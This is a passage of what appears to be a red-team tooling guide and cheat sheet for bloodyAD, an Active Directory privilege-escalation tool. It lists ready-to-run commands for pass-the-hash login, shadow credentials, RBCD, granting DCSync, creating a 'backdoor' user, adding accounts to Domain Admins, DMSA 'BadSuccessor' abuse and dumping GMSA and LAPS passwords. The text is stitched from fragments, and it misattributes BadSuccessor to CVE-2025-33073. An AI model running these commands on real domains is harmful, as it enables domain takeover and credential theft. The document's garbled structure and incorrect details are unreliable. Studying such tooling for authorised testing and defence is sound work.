bloodyAD ... add badSuccessor evilDmsa -t "CN=Administrator,CN=Users,DC=bloody,DC=lab"
```

`add badSuccessor <dmsa> -t <target DN>` creates a Dedicated Managed Service Account that inherits a target's privileges via the `msDS-ManagedAccountPrecededBy` link. This abuses the BadSuccessor vulnerability on domains with DMSA enabled. `-t` can be repeated for multiple targets; `--ou` sets the DMSA's OU. Check exposure with `msldap badsuccessor_check`.

[Screenshot: add shadowCredentials and add dcsync output]

**Summary**

- `add computer`/`user` create objects; `add groupMember`/`genericAll`/`dcsync` grant rights.
- `add shadowCredentials` (PKINIT) and `add rbcd` (S4U) are the two main delegation-abuse paths.
- `add uac -f DONT_REQ_PREAUTH` enables [AS-REP roasting](/docs/kerberos/asreproast/); `add badSuccessor` abuses DMSA.

---
```bash
bloodyAD ... get writable
```

Lists objects writable by the authenticated user — the first thing to run when looking for an ACL-abuse path. Pair with `get object <target> --resolve-sd` to see the specific rights.

### `get bloodhound`: BloodHound CE collector

```bash
bloodyAD ... get bloodhound --path ./bh.zip
bloodyAD ... get bloodhound --transitive --path ./bh.zip
```

Generates a BloodHound CE data zip for ingestion. `--transitive` follows trusts for more complete results. Note: this collector is still in development and does not yet cover ADCS ESC and some complex node types — for full coverage use SharpHound.

[Screenshot: get writable and get object --resolve-sd output]

**Summary**

- `get object`/`children`/`search`/`trusts`/`dnsDump`/`membership`/`writable`/`bloodhound` cover enumeration.
- `get writable` + `get object --resolve-sd` find ACL-abuse paths.
- `get search` runs arbitrary LDAP filters for kerberoastable/AS-REP targets.

---
| Certificate (PKINIT) | `-c pfx -k` | Cert-based Kerberos |

[Screenshot: authentication methods table in use]

**Summary**

- NTLM: `-p` (password) or `-p :NTHASH` (PTH); omit `-p` for SSPI.
- Kerberos: `-k` + password/key/ticket (`ccache`/`kirbi`/`keytab`); use `--host` hostname + `--dc-ip` if needed.
- Certificate: `-c key:cert` (Schannel) or `-c pfx -k` (PKINIT). `-s` for LDAPS.
## Conclusion

bloodyAD is a single-tool AD privesc framework that spans the kill-chain from low-priv foothold to Domain Admin. Its `get` category maps your attack surface (writable objects, ACLs, trusts, DNS, GMSA/LAPS passwords); its `add`/`set` categories execute the escalation (shadow credentials, RBCD, DCSync, group/ACL abuse, password resets, UAC flips); and `remove` enables clean teardown of every change. With password, hash, Kerberos, and certificate authentication — and transparent SOCKS support — it drops cleanly into a toolchain alongside Ligolo-ng for tunneling and [Sliver](/docs/tools/sliver/) or impacket for the post-exploitation steps. The discipline that makes it effective is the same that keeps it defensible: enumerate first with `get writable` and `--resolve-sd`, choose the least-permanent path, document every `add`/`set`, and mirror each with `remove` so you leave no privilege-grant artifacts behind.

---

## Cheat Sheet

### Global auth flags (abbreviate as `bloodyAD ...`)

```bash
# NTLM password
bloodyAD -d radiant.local -u jane.doe -p 'Password123!' -H 172.16.1.15
# NTLM pass-the-hash
bloodyAD -d radiant.local -u jane.doe -p :NTHASH -H 172.16.1.15
# Kerberos (password/key/ticket)
bloodyAD -d radiant.local -u jane.doe -p 'pw' -k -H DC01.radiant.local
bloodyAD -d radiant.local -k ccache=ticket.ccache -H DC01.radiant.local
# Certificate (Schannel / PKINIT)
bloodyAD -d radiant.local -c key:cert -H 172.16.1.15
bloodyAD -d radiant.local -c pfx -k -H DC01.radiant.local
# LDAPS
... -s ...
```

### `get` (enumerate)

```bash
bloodyAD ... get object ''                                   # rootDSE
bloodyAD ... get object <target> --resolve-sd               # ACL rights on target
bloodyAD ... get children --otype useronly|computer|group    # list objects
bloodyAD ... get search --filter '<LDAP filter>' --attr ...  # LDAP query
bloodyAD ... get writable                                    # objects you can modify
bloodyAD ... get membership <target>                        # group memberships
bloodyAD ... get trusts                                      # trust tree
bloodyAD ... get dnsDump [--zone Z]                          # AD DNS records
bloodyAD ... get bloodhound --path ./bh.zip                  # BloodHound CE zip
```

### `add` (create / grant)

```bash
bloodyAD ... add computer EVIL 'P@ss!'                       # machine account
bloodyAD ... add user backdoor 'P@ss!'                        # user account
bloodyAD ... add shadowCredentials Administrator --path .ccache  # PKINIT path
bloodyAD ... add rbcd DC01$ EVIL$                             # RBCD delegation
bloodyAD ... add dcsync jane.doe                             # DCSync right
bloodyAD ... add genericAll Administrator jane.doe           # full control
bloodyAD ... add groupMember "Domain Admins" jane.doe       # group add
bloodyAD ... add uac svc_sql -f DONT_REQ_PREAUTH             # UAC flag
bloodyAD ... add badSuccessor evilDmsa -t <target DN>        # DMSA abuse
```

### `set` (modify)

```bash
bloodyAD ... set password Administrator 'N3w!' [--oldpass X] # reset password
bloodyAD ... set owner Administrator jane.doe                # change owner
bloodyAD ... set object svc_sql servicePrincipalName -v ...  # attribute edit
bloodyAD ... set restore <deleted-DN> [--newName ..]         # restore tombstoned
```

### `remove` (teardown)

```bash
bloodyAD ... remove dcsync|genericAll|groupMember|rbcd|shadowCredentials|uac ...
bloodyAD ... remove object <target>
bloodyAD ... remove dnsRecord --record <name>
```

### `msldap` (raw)

```bash
bloodyAD ... msldap shadowcred <target>      # extract key credential
bloodyAD ... msldap gmsa 'acct$'              # GMSA password
bloodyAD ... msldap laps                      # LAPS passwords
bloodyAD ... msldap aiacas|rootcas|certtemplates   # ADCS enum
bloodyAD ... msldap badsuccessor_check        # DMSA exposure
bloodyAD ... msldap modify <dn> <attr> <val>  # raw attribute edit
```

### Teardown order

For every `add`/`set`: run the matching `remove` → `remove object` for created accounts → restore original passwords → restore ACL/trust state.

---
## FAQ

### What is bloodyAD?
bloodyAD is an Active Directory privilege-escalation framework that performs targeted LDAP calls to a domain controller to read and modify AD state — shadow credentials, RBCD, DCSync, ACL abuse, computer/user creation, password resets, UAC flips, and DNS tampering — from a single Python CLI.

### How do I install bloodyAD?
`pip install bloodyAD` (or clone the repo and `pip install .`). The binary is named `bloodyAD` (no `.py`). Dependencies are Python 3, MSLAP, and dnspython.

### What authentication methods does bloodyAD support?
Cleartext passwords, pass-the-hash (`-p :NTHASH`), Kerberos (password, AES/RC4 key, ccache/kirbi/keytab tickets), and certificates (Schannel and PKINIT). Add `-s` for LDAPS.

### What are the top-level bloodyAD commands?
Five categories: `add` (create objects, grant rights), `get` (enumerate), `set` (modify attributes/owner/password, restore deleted), `remove` (undo grants, delete objects), and `msldap` (raw MSLAP wrappers).

### How do I use bloodyAD with Kerberos?
Use `-k`, and provide either a password (`-p`), a key (`-p <key> -f aes|rc4`), or a ticket file (`-k ccache=..|kirbi=..|keytab=..`). You must set the DC hostname in `--host` (not the IP); use `--dc-ip` for the IP if DNS won't resolve.

### What are shadow credentials in bloodyAD?
`add shadowCredentials <target>` writes a `msDS-KeyCredentialLink` value onto the target, then uses PKINIT to request a TGT and derive the NT hash. It requires a Windows Server 2016+ DC and AD CS/CA for PKINIT.

### How do I grant DCSync with bloodyAD?
`add dcsync <trustee>` adds the DS-Replication extended rights to the trustee. You need `WriteDacl` on the domain object. After granting, run `impacket-secretsdump` to dump all hashes.

### How do I abuse RBCD with bloodyAD?
Create a computer account (`add computer`), grant it delegation on the target (`add rbcd <target> <service>`), then use impacket `getST.py` (or Rubeus) to request an S4U ticket impersonating your chosen user on the target.

### How do I reset a user's password with bloodyAD?
`set password <target> <newpass>`. If you don't have the "change password" permission, add `--oldpass <current>` — this works without elevated rights and is useful for expired/locked accounts.

### Does bloodyAD work through a SOCKS proxy?
Yes. Run `proxychains bloodyAD ...` or set the `ALL_PROXY`/`HTTP_PROXY` environment variable. This pairs naturally with tunneling tools like Ligolo-ng to reach an internal DC.

### Can bloodyAD enumerate ADCS?
Yes — the `msldap` category exposes `aiacas`, `rootcas`, `certtemplates`, and `enrollmentservices` for ADCS enumeration. For full ESC exploitation, pair with Certipy.

### What is the BadSuccessor attack?
`add badSuccessor` creates a Dedicated Managed Service Account (DMSA) that inherits a target's privileges via the `msDS-ManagedAccountPrecededBy` link (CVE-2025-33073). Check exposure with `msldap badsuccessor_check`.

### How do I clean up after a bloodyAD engagement?
Mirror every `add` with its `remove` counterpart (`remove dcsync`/`genericAll`/`groupMember`/`rbcd`/`shadowCredentials`/`uac`), `remove object` for accounts you created, and restore any password you changed from your engagement notes.

---

## References

- bloodyAD project: <https://github.com/CravateRouge/bloodyAD>
- bloodyAD wiki: <https://github.com/CravateRouge/bloodyAD/wiki>
- MSLAP library: <https://github.com/skelsec/msldap>
- MITRE ATT&CK T1068 — Exploitation for Privilege Escalation: <https://attack.mitre.org/techniques/T1068/>
- MITRE ATT&CK T1098 — Account Manipulation: <https://attack.mitre.org/techniques/T1098/>
- MITRE ATT&CK T1558 — Steal or Forge Kerberos Tickets: <https://attack.mitre.org/techniques/T1558/>
- See also: [Ligolo-ng guide](/docs/tools/ligolo-ng) for tunneling to an internal DC, [Sliver C2 guide](/docs/tools/sliver) for post-exploitation, and the [Kerberos section](/docs/kerberos/) for ticket-based attacks.

> *Internal: see [Tools index](/docs/tools/) for more offensive tooling guides, and the [red team section](/docs/redteam/) for related tradecraft.*

---